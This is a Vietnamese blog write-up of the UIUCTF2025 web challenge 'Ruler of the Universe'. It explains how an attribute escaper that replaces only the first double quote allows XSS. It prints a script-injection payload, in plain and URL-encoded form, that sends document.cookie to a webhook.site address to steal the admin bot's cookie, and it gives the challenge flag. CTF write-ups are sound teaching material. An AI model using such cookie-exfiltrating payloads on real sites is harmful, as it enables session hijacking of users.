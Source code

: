 ```yaml
---
title: Writeup Giải UIUCTF2025
date: 2025-07-29
categories: [web]
tags: [writeup] # TAG names should always be lowercase
---
```



## UIUCTF2025

## I. Ruler of the Universe

Khi ta mở sẽ thấy được giao diện như bên dưới

![image.png](/assets/img/posts/UIUCTF2025/image.png)

ngoài ra còn một trang `Admin Bot` 

![image1.png](/assets/img/posts/UIUCTF2025/image1.png)

thì cũng phần nào đoán được bài lab này liên quan đến chủ đề `XSS Injection` 

kiểm tra source code ta thấy một đoạn code khả nghi sau

```html
            <input
              id="message"
              name="message"
              type="text"
              class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
              placeholder={
                crewMessage
                  ? `Update your message: ${crewMessage}`
                  : "Enter a message for the crew"
              }
            />
```

Ở đây, `crewMessage` được đưa vào làm giá trị cho một **thuộc tính (prop/attribute)**. Ngoài ra cũng còn có một đoạn code phòng chống XSS nhưng chưa đủ chắc chắn như sau

```tsx
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";
```

đoạn code trên chỉ thay thế dấu `"` đầu tiên bằng `&quot;` nên ta vẫn có thể dễ dàng vượt qua nó

và ta sẽ khai thác lỗ hổng trên bằng payload như sau:  `" placeholder="Hello"><script>fetch('[https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=](https://webhook.site/fbdbb9e3-5a91-4964-83de-9b97f9a23bb4?flag=)' + document.cookie)</script>`
nhập payload vào phần `Crew Message:` trên trang web và kiểm tra

![image2.png](/assets/img/posts/UIUCTF2025/image2.png)

ta thấy đã thành công tiêm thẻ `script` vào trang web 

và việc cuối cùng ta phải làm là gửi trang web đã bị XSS này đến với `Adminbot` để lấy flag thôi

`url_part` gửi đến adminbot `module/1?message="+placeholder%3D"Hello"><script>fetch%28%27https%3A%2F%2Fwebhook.site%2Ffbdbb9e3-5a91-4964-83de-9b97f9a23bb4%3Fflag%3D%27+%2B+document.cookie%29<%2Fscript>`

> `flag : uiuctf{maybe_i_should_just_use_react_c49b79}`
{: .prompt-tip }

## Sẽ cập nhập thêm trong thời gian tới…

